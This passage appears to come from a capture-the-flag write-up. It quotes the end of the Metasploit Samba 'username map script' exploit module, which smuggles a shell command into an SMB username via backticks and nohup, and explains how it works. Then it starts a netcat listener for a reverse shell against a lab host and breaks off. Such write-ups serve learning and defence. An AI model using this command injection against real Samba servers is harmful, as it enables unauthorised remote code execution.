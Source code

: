```
                                                        # *_perl and *_ruby work if they are installed
                                                        # mileage may vary from system to system..
                                                }
                                },
                        'Targets'        =>
                                [
                                        [ "Automatic", { } ]
                                ],
                        'DefaultTarget'  => 0,
                        'DisclosureDate' => 'May 14 2007'))

                register_options(
                        [
                                Opt::RPORT(139)
                        ], self.class)
        end

        def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end

end

```

The key part is in `def exploit` at the bottom. It is creating an SMB session using:
- username = `/=`nohup [payload]``
- password = random 16 characters
- domain = user provided domain

So basically on Linux, `` `` are used to execute and put the output in place, just like `$()`. It seems Samba is allowing that to happen inside the username. Metasploit is calling `nohup` (which starts the process outside the current context) and then a payload.

#### smbclient Fails

I’ll try this with `smbclient`. I’ll start a `nc` listener on 443. I can connect to the share using `smbclient //10.10.10.3/tmp`. First I tried specifying a user:
